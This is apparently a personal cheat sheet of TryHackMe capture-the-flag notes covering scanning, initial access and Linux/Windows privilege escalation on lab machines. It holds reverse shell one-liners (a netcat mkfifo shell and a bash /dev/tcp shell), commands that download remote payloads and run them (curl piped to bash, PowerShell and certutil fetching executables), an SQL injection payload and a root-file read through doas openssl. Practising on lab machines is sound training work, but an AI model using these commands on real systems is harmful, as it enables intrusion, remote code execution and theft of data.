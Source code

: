 
# Tryhackme Experience
- Index
  - [Reconnaissance](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#reconnaissance)
  - [Initial Access](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#initial-access)
  - [Interesting files and paths](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#interesting-files-and-paths)
  - [Esclation and Tweaks](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#esclation-and-tweaks)


### Reconnaissance
- Nmap -sC -sV -v target   
  - sV tries to find out which services are running on the target
  - Pn disables the ping command and only scans ports.
  - sC is short form for script scan, based on services availble, it uses sripts to scan more
  - T<0-5>: Set timing template (higher is faster)
  - A Enable OS detection, version detection, script scanning, and traceroute
- gobuster dir -u http://10.10.164.212/ -w /usr/share/wordlists/dirb/common.txt
  - dir fuzzer 
- nikto -h target
  - tool for enumerating information from Windows and Samba systems
- enum4linux target
  - tool for enumerating information from Windows and Samba systems 
- smbmap -H target 
  - SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents etc.
- smbclient //target/share
  - Mostly used in null sessions kinda samba exploitable directories
- rustscan -a target
  - The modern NMAp scanner  
### Initial Access
- Searchsploit nagios
  - searchsploit -m php/webapps/blah.txt  -> convert to py shell and read the comments/usage details in the the following code and input accordingly
 - python3 -m http.server 8080
  - Opens up a dedicated python server over the internet to serve files in that directory
  - http://10.9.2.90:8080/shell.sh | bash
 - nc -nlvp 1234
   - Opens up a netcat shell on attacker box for incoming connections 
 -  python -c 'import pty; pty.spawn("/bin/bash")'  
   - Upgrade from a dump shell to  bash shell
 - powershell.exe Invoke-WebRequest -Uri https://10.10.10.10/shell.exe -OutFile ./shell.exe && .\shell.exe
   - powershell.exe — this is a shell in windows (other than cmd.exe) it is object oriented and it is the blue teams best friend and a hackers favorite mistress
   - Invoke-WebRequest — powershell module similar to curl
   - Uri — the target URI
   - OutFile — what the file downloaded will be called
   - .\shell.exe — execute the shell.exe in the current working directory
   - Get-Content user.txt
 - certutil.exe -urlcache -split -f http://10.17.8.104:8080/mysqld_evil.exe mysqld.exe
   - To download a payload from a remote server 
- 1' or '1'='1';-- -
  - SQL Injection Payloads 
  - sqlmap -r login.req --level 3 --risk 3
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
  - If we have a ‘PHP system’ remote code exec on the system, we will spawn a proper rev shell using nc

- /bin/bash -i >& /dev/tcp/10.2.96.144/4443 0>&1
  - Load this babe into a .sh file used during cronjob kinda exploits 
  - ?cmd=curl+http://10.2.96.144:8000/rev.sh+|+bash
  - Downloadas and executes file
  - [Pentest Monkey Reverse PHP file](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

### Interesting files and paths
- cd /var/www/html/wordpress/wp-config.php
- doas.conf
  - Check whether SSL is permitted to run as root! [permit nopass plot_admin as root cmd openssl
]
  -  doas openssl enc -in "/root/root.txt"  
- 

### Esclation and tweaks
- su user
- sudo -l
- https://gtfobins.github.io/
  - Limuzzzzzz
- https://lolbas-project.github.io/  
  - Windows 
- find / -type f -perm -u=s 2>/dev/null
- getcap -r / 2>/dev/null 
- https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
- curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh



### References and boxes completed
1. https://tryhackme.com/room/techsupp0rt1
2. https://tryhackme.com/room/flatline
3. https://tryhackme.com/room/plottedtms
4. https://tryhackme.com/room/gallery666
5. 
    
